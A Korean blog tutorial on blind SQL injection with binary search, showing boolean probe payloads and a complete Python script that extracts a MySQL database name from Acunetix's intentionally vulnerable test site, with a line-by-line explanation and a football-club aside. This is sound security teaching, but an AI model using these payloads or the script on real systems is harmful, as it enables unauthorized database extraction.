




x
> _이번에는 Binary Search를 이용하여 DB를 추출할 수있는 방법을 알아봅시다._----## 🔵⚪️🔴 수원삼성 블루윙즈 :)안양과의 강등 플레이오프에서 2경기 연장 후반 15분 오현규 선수의 극적인 골로 잔류를 하게되었습니다. ❗️❗️❗️추가적으로 이기제 선수의 도움왕, 잔류를 추카하며 내년에는 상위 스플릿에 올라갔으면 합니다🙏🙏🙏 ----## Binary SearchBinary Search란 이진탐색 알고리즘이라 하며 <span style="color:dodgerblue">`` 정렬된 데이터`` </span>에서 검색 범위를 줄여 나가면서 원하는 데이터를 검색하는 알고리즘 입니다.------## Contain DB Nametest는 [acunetix의 취약한 페이지](http://testphp.vulnweb.com/)로 진행을 하였습니다.### Step 1. Find Blind SQLi point제일 먼저 Blind SQLi가 가능한 포인트를 찾아야 합니다.참인 쿼리( <span style="color:dodgerblue"> `` +and+1=1 ``</span> ) 를 넣었을때 Posters 의 내용이 확인이 가능합니다.반면 거짓인 쿼리( <span style="color:dodgerblue"> `` +and+1=2 ``</span> ) 를 넣었을때 Posters 의 내용이 확인이 불가능합니다.### Step 2. 스크립트 만들기<span style="color:dodgerblue">`` 파이썬 `` </span> 을 이용하여 DB Name을 가져오는 스크립트를 만들어 봅시다.```python#coding: UTF-8[WEB][MYSQL] - Blind SQLi With Binary Search & Python
이번에는 Binary Search를 이용하여 DB를 추출할 수있는 방법을 알아봅시다.
🔵⚪️🔴 수원삼성 블루윙즈 :)
안양과의 강등 플레이오프에서 2경기 연장 후반 15분 오현규 선수의 극적인 골로 잔류를 하게되었습니다. ❗️❗️❗️
추가적으로 이기제 선수의 도움왕, 잔류를 추카하며 내년에는 상위 스플릿에 올라갔으면 합니다🙏🙏🙏

Binary Search
Binary Search란 이진탐색 알고리즘이라 하며 정렬된 데이터 에서 검색 범위를 줄여 나가면서 원하는 데이터를 검색하는 알고리즘 입니다.

Contain DB Name
test는 acunetix의 취약한 페이지로 진행을 하였습니다.
Step 1. Find Blind SQLi point
제일 먼저 Blind SQLi가 가능한 포인트를 찾아야 합니다.
참인 쿼리( +and+1=1 ) 를 넣었을때 Posters 의 내용이 확인이 가능합니다.

반면 거짓인 쿼리( +and+1=2 ) 를 넣었을때 Posters 의 내용이 확인이 불가능합니다.

Step 2. 스크립트 만들기
파이썬 을 이용하여 DB Name을 가져오는 스크립트를 만들어 봅시다.
#coding: UTF-8
import argparse
import requests
class colors:
BLACK = '\033[30m'
RED = '\033[31m'
GREEN = '\033[32m'
YELLOW = '\033[33m'
BLUE = '\033[34m'
MAGENTA = '\033[35m'
CYAN = '\033[36m'
WHITE = '\033[37m'
UNDERLINE = '\033[4m'
RESET = '\033[0m'
def DashBoard(suwon,url,DB_NAME):
screenDashboard = '''
=====================================================
{0}
SQL Injection Binary Search
=====================================================
[-] Target IP : {1}
[!] Find DB NAME : {2}
'''.format(suwon,url,DB_NAME)
print(screenDashboard)
def http(query):
url = "http://testphp.vulnweb.com/listproducts.php?cat="+query
#cookie = {"보통 로그인 상태에서는 세션 유지를 위해 쿠키를 보내지만 여기는 없음"}
res = requests.get(url=url)
html = res.text
if(html.find('The shore')>0): #Blind SQLi를 통해 참과 거짓을 구분할 문자
return 1
else:
return 0
def BinarySearch(min,max,query):
mid= (min+max)//2
bresult = http(query + ">" + str(mid) + " THEN 1 ELSE 2 END))")
if((max-min)<=1):
if(bresult):
return max
else:
return min
if(bresult):
return BinarySearch(mid,max,query)
else:
return BinarySearch(min,mid,query)
DB_length_Query = "1 and 1=(SELECT (CASE WHEN (SELECT LENGTH(DATABASE())) "
DB_length = BinarySearch(1,100,DB_length_Query)
DB_NAME_result = ""
for pnum in range(1, DB_length+1):
DB_NAME_query = "1 and 1=(SELECT (CASE WHEN (SELECT ASCII(SUBSTR(DATABASE()," + str(pnum) + ",1)))"
DB_NAME = BinarySearch(1, 200, DB_NAME_query)
DB_NAME_result += chr(DB_NAME)
suwon = colors.BLUE+"SUWON "+colors.RESET+colors.WHITE+"SAMSUNG "+colors.RESET+colors.RED+"BLUE WINGS"+colors.RESET
url = "http://testphp.vulnweb.com/listproducts.php"
DashBoard(suwon,url,DB_NAME_result)
Step 3. 결과 확인
스크립트를 돌려 결과를 확인해봅시다. DB이름이 acuart가 추출된 것을 볼 수 있습니다.

스크립트 분석
작성한 스크립트를 분석 하나씩 분석을 해봅시다.
Dashboard()
DashBoard 함수는 URL과 DB_NAME를 출력해주는 함수입니다.
def DashBoard(suwon,url,DB_NAME):
screenDashboard = '''
=====================================================
{0}
SQL Injection Binary Search
=====================================================
[-] Target IP : {1}
[!] Find DB NAME : {2}
'''.format(suwon,url,DB_NAME)
print(screenDashboard)http()
http 함수는 url에 쿼리 request를 요청하고 보낸 결과에 따라 참이면 1 거짓이면 0를 반환하는 함수입니다.
def http(query):
url = "http://testphp.vulnweb.com/listproducts.php?cat="+query
#cookie = {"보통 로그인 상태에서는 세션 유지를 위해 쿠키를 보내지만 여기는 없음"}
res = requests.get(url=url)
html = res.text
if(html.find('The shore')>0): #Blind SQLi를 통해 참과 거짓을 구분할 문자
return 1
else:
return 0BinarySearch()
BinarySearch 함수는 입니다. 받아온 query와 부족한 query를 합쳐 http()함수로 보내줍니다.
min,max 인자를 받는데 min과 max는 ascii를 찾기 위해 사용합니다. 두개의 차이가 1이하이면 해당 ASCII를 찾은 것이고 그게 아니라면 재귀를 합니다.
def BinarySearch(min,max,query):
mid= (min+max)//2
bresult = http(query + ">" + str(mid) + " THEN 1 ELSE 2 END))")
if((max-min)<=1):
if(bresult):
return max
else:
return min
if(bresult):
return BinarySearch(mid,max,query)
else:
return BinarySearch(min,mid,query)메인 코드
메인 코드는 DB_length_query 를 BinarySeach 함수로 보내 DB의 길이를 알아냅니다.
알아낸 DB길이(6) 만큼 for문을 돌려 DB_NAME_query, DATABASE(), SUBSTR, ASCII() 이용하여 한글자 씩 추출합니다.
추출된 글자는 result 변수에 저장되어 Dashboard 함수에 전달되어 DB 이름을 출력합니다.
DB_length_Query = "1 and 1=(SELECT (CASE WHEN (SELECT LENGTH(DATABASE())) "
DB_length = BinarySearch(1,100,DB_length_Query)
DB_NAME_result = ""
for pnum in range(1, DB_length+1):
DB_NAME_query = "1 and 1=(SELECT (CASE WHEN (SELECT ASCII(SUBSTR(DATABASE()," + str(pnum) + ",1)))"
DB_NAME = BinarySearch(1, 200, DB_NAME_query)
DB_NAME_result += chr(DB_NAME)
suwon = colors.BLUE+"SUWON "+colors.RESET+colors.WHITE+"SAMSUNG "+colors.RESET+colors.RED+"BLUE WINGS"+colors.RESET
url = "http://testphp.vulnweb.com/listproducts.php"
DashBoard(suwon,url,DB_NAME_result)후기
공부를 더 열심히 하여 파이썬 스크립트를 잘 만들고 싶다 끝!